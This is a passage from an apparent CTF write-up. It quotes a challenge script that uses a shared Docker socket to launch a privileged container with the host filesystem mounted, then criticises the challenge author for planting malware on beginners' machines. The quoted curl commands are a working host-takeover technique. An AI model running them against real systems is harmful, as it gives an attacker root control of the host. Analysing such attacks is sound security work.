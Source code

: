 ```
curl --silent -XPOST --unix-socket /var/run/docker.sock -d "{\"Image\":\"${REGISTRY_NAME}/${EVIL_IMG_NAME}\", \"HostConfig\":{\"Privileged\":true, \"NetworkMode\":\"host\", \"PidMode\":\"host\", \"IpcMode\":\"host\", \"Binds\":[\"/:/host\"]}}
" -H 'Content-Type: application/json' "http://localhost/containers/create" | jq '.Id' | tr -d '\"' > /id_evil_container

# Start the EVIL container
curl --silent -XPOST --unix-socket /var/run/docker.sock -H 'Content-Type: application/json' "http://localhost/containers/$(cat /id_evil_container)/start" > "/dev/null"

# The part below will block the execution and will not give the flag the to CTFers if an issue happens

# Wait until the EVIL container exits
# Delete the EVIL container
# Delete the EVIL image
```

The script gives a link to [this page](https://zwischenzugs.com/2015/06/24/the-most-pointless-docker-command-ever/) which explains how to run a Docker container with full root capabilities, using `--privileged`, `--net=host`, `--pid=host`, `--ipc=host` and mounting `/`.

# Conclusion

The *Welcome* challenge was a warm-up challenge intended for CTF beginners.
Solving it and getting the flag was *easy* and with only little interest.
Post mortem investigation of how to plant a malware on participant's host was *far more interesting*.
The author has certainly proved his point, that **sharing Docker sockets is a critical security risk**.
Fortunately, the malicious payload didn't do anything worse than modify the shell prompt and the wallpaper. It could have been worse: thanks for stopping at this point ;P

Yet, I profoundly **disagree with the ethics** in this case.

1. **Easy victims.** This challenge was intended for beginners. A bit shameful to target them.

2. **Trust.** In a CTF (and in a hacking conference in general), everybody knows to protect themselves **against other participants**. There are 700+ participants. When people buy a ticket, there isn't an ethics and moral check on them ;) However, we usually have to **trust the CTF organizers** (and reciprocally, they sometimes have to trust participants not to ruin their scoreboard). Indeed, in **numerous CTF challenges**, you have to download executables and reverse them. In multiple case, you'll also have to *execute them*. Who, in a CTF, checks absolutely the entire executable before running it? Who? Don't lie! **Nobody does because it takes too much time** and in a CTF, we are - by definition - short of time. When you get an executable, you reverse the flags that hold the flag. You can't afford to reverse all assembly lines to check it's not doing something illicit. Because of this, despite I had seen the socket sharing, I had chosen to *trust the challenge author*. I won't next time (but it might cost me a flag). Some will probably say I am a foul player and am just unhappy I got pwned. Well, yes, that's partly true. You are always disappointed when your trust was misplaced.

3. **Malware creation.** This is something that many hackers and security researchers don't get. It is **not funny to create a new malware**. On Android alone, we have **10,000+ new samples per day**, and it's worse on Windows. Do you really think it is responsible just to add another one? It just gives Anti-Virus analysts (or Anti-Virus scripts) more work, wasting time on something meant to be "funny", and hence having less time to catch real cyber-criminals.


> **Every time you create a "funny" malware, you play cyber-criminals game and help them infect your mother's laptop, your father's laptop, your aunt's laptop etc**.
> I am pretty sure any Anti-Virus analyst will back me on this one.


